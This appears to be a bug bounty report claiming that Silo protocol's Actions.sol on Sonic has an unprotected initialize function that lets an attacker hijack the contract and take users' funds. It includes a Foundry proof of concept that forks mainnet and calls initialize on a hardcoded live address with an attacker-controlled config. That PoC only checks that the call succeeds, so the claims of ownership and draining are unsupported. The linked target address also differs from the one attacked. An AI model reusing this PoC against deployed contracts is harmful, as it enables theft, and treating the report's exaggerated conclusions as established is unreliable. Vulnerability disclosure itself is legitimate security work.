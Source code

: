 **Contract hijack via unprotected initialize in Actions.sol**

_Bug Severity:_ Critical 

_Target:_ https://sonicscan.org/address/0x435Ab368F5fCCcc71554f4A8ac5F5b922bC4Dc06?utm_source=immunefi#code#F10#L43-53





**Summary:**

Actions.sol uses as e.g middleware in silo protocol, meaning if a user calls deposit/withdraw from silo.sol, the silo.sol will make an external call to Actions.sol, this contract handles multiple tasks such as, calling accrueInterest, turn on/off reentrancy protection, calls hook receiver, gets shareToken and asset addresses, and also the contract interacts with vaults that change the storage, meaning if an attacker can get access or hijack the Actions.sol via calling initialize with malicious siloConfig, fake hook receiver and Change shareToken and asset addresses, all the protocol's transactions will be under the attacker's malicious actions, and could give the Attacker full control over the user's funds



```solidity
// Actions.sol
    /// @notice Initialize Silo
    /// @param _siloConfig Address of ISiloConfig with full configuration for this Silo
    /// @return hookReceiver Address of the hook receiver for the silo
@audit-bug--> // ⚠️ BUG: Missing initialize call 
    function initialize(ISiloConfig _siloConfig) external returns (address hookReceiver) {
        IShareToken.ShareTokenStorage storage _sharedStorage = ShareTokenLib.getShareTokenStorage();

        require(address(_sharedStorage.siloConfig) == address(0), ISilo.SiloInitialized());

        ISiloConfig.ConfigData memory configData = _siloConfig.getConfig(address(this));

        _sharedStorage.siloConfig = _siloConfig;

        return configData.hookReceiver;
    }
```


- After deep reviews, i found out that the silo admins forgot to call initialize in Actions.sol contract, the contract is Unprotected everyone can call it and become the owner of it.





**Impact:**

- Attacker could hijack the Actions.sol contract via calling initialize function and change the siloConfig, hook receiver, shareToken and asset addresses all to the malicious ones.
- Users' funds will be under attacker's control
- And the attacker could drain the protocol's funds via contract without reentrancy protection
- Once the attacker became the owner of Actions.sol, the protocol admins can not return the contract back from attacer.





**Recommendation:**

Consider adding onlyOwner ko call the unitize function to prevent the attacker from hijacking it.





**Proof Of Concept (POC)**

The below PoC shows how an attacker called initialize function with malicious siloConfig, fake hook receiver, fake shareToken and malicious vaults, finally the attacker became the owner of the Actions.sol contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import "forge-std/Test.sol";

interface ISiloConfig {
    struct ConfigData {
        address hookReceiver;
        address silo;
    }

    function getConfig(address silo) external view returns (ConfigData memory);
}

interface IActions {
    function initialize(ISiloConfig _siloConfig) external returns (address hookReceiver);
}

contract MaliciousSiloConfig is ISiloConfig {
    function getConfig(address) external pure override returns (ConfigData memory) {
        return ConfigData({
            hookReceiver: address(0xdeadbeef),  // just test value
            silo: address(0x12345678)          // just test value
        });
    }
}

contract SiloActionsInitialize is Test {
    address constant ACTIONS = 0x1F13CcDBd7cB2021e499D23478Dc292d48211c04;

    MaliciousSiloConfig maliciousConfig;

    function setUp() public {
        vm.createSelectFork(vm.envString("SONIC_RPC_URL"), 34402746);

        // deploy mock silo config
        maliciousConfig = new MaliciousSiloConfig();
    }

    function test_Initialize() public {
        // try to initialize with attacker-controlled config
        (bool success, bytes memory data) = ACTIONS.call(
            abi.encodeWithSelector(
                IActions.initialize.selector,
                maliciousConfig
            )
        );

        require(success, string(data));
    }
}
```

